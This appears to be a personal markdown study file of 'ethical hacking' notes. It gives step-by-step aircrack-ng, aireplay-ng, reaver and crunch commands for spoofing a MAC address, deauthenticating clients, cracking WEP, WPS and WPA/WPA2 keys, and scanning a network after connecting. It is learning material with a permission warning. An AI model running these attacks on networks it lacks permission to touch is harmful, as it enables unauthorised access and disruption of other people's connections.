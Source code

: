 # Ethical Hacking Notes
___

## The Rules

- [x] Don't be a ass.
- [x] Have Fun.
- [ ] Learn Something New.
___

# Network Hacking - Gaining Access
___
### Changing your device's MAC Address

- First, ensure device is visible with `ifconfig` or `iwconfig`

- Next, take device down with `ifconfig <device name> down`
 
- Next, change the MAC Address with `ifconfig <device name> hw ether <MAC Address>` where MAC Address follow format 00:00:00:00:00:00

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Change Wirless Adapter to Utilize Monitor Mode

- First, ensure device is visible and not in monitor mode with `iwconfig`

- Next, bring down the device with `ifconfig <device name> down`

- Next, kill off processes that might interfere with aircrack-ng suit by running `airmon-ng check kill`

- Next, update monitor mode by running `iwconfig <device name> mode monitor`

- Lastly, bring the device back online with `ifconfig <device name> up`
___

### Packet Sniffing Using Airodump-ng

- To start packet sniffing, run `airodump-ng <device name>` where device name is your wireless adapter in monitor mode

- To specify the band frequency, utilize the `--band` argument

   `airodump-ng --band abg <device name>` will capture packets over 2.4 and 5 Ghz simultaniously

- In order to sniff packets on a specific network utilize the below command

   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

___

### Deauthentication Attack with aireplay-ng

- To disconnect any device from any router utilize the command:

   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

:+1:**DO NOT DO THIS TO A NETWORK OR DEVICE YOU DO NOT OWN OR HAVE PERMISSION TO...**:+1:

___

### Cracking  and Connecting to a WEP Wifi Network

##### High Volume WEP Wifi Network Cracking
- In order to crack a WEP, we need a large ammount of packets from a high volume network.

- Run aircrack-ng with the .cap file to crack the key

   `aircrack-ng <name of .cap file>` 

##### Low Volume WEP Wifi Network Cracking
- Utilize airodump-ng to sniff packets on the victum network as seen above.

- To associate your device to the network utilize aireplay-ng by running the command

   `aireplay-ng --fakeauth 0 -a <Router MAC> -h <Your Device unspec> <device name>` 

- Run an ARP Attack on the network by running the command
   `aireplay-ng --arpreplay -b <Router MAC> -h <Your Device unspec> <device name>`

- Run aircrackpng with the .cap file similar to above to crack the key
___

### Exploiting WPS Feature for WPA/WPA2 Wifi Network

- First, run reaver WPS cracker utilzing the command 

   `reaver --bssid <Network MAC> --channel <channel #> --interface <device name> -vvv --no-associate`

- next, associate your device to the network utilizing above command

___

### Capturing a WPA/WPA2 Handshake

- First, start packet sniffing a specific network utilizing the command
   `airodump-ng --bssid <router MAC Address> --channel <channel number> --write <write file> <device name>`

- Next, run a deauthentication attack on a particular device utilizing the command
   `aireplay-ng --deauth <# of packets> -a <Router MAC> -c <Client MAC> <device name>`

___

### Cracking a WPA/WPA2 handshake with a wordlist Attack

- First, utilize the above section to capture a handshake.

- Next, ensure you have a large word list, github has large common password files

- Lastly, we need to utilize aircrack-ng to try and crack the handshake against the password file
   `aircrack-ng <handshake capture file .cap> -w <password txt file>`

___

### Creating your own password wordbank

- `crunch <min pass> <max pass> <Letters or numbers> -o <file name txt> -t <known format (he@@owor@d)> 
___

# Network Hacking - Post Connection Attacks

- `netdiscover -r <IP Range> (example 192.168.1.1/24)
